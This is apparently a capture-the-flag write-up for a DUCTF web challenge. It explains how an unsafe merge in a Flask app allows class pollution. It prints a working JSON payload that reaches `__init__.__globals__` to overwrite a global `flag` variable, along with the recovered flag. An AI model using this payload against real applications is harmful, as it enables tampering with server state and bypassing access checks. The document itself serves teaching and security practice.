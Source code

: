 ```py
@app.route("/get_flag")
@login_required
def get_flag():
    if flag == "true":
        return "DUCTF{NOT_THE_REAL_FLAG}"
    else:
        return "Nope"
```

We can retrieve the flag using the `/get_flag` endpoint but, but it need the `flag` var to be `"true"`

Since the `merge` will overwriting the `Feedback` class attribute, the idea is overwrite the `flag` variables within the initialized class

We can see this is possible on the [Hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#globals-and-locals)

We can escape into python globals with `class.__init__.__globals__` and rewrite `flag` variables into `"true"`

```json
{
  "title": "omaga",
  "content": "omaga",
  "rating": "",
  "referred": "omaga",
  "__init__": {
    "__globals__": {
      "flag": "true"
    }
  }
}
```

Then go to `/get_flag`

**DUCTF{_cl455_p0lluti0n_ftw_}**
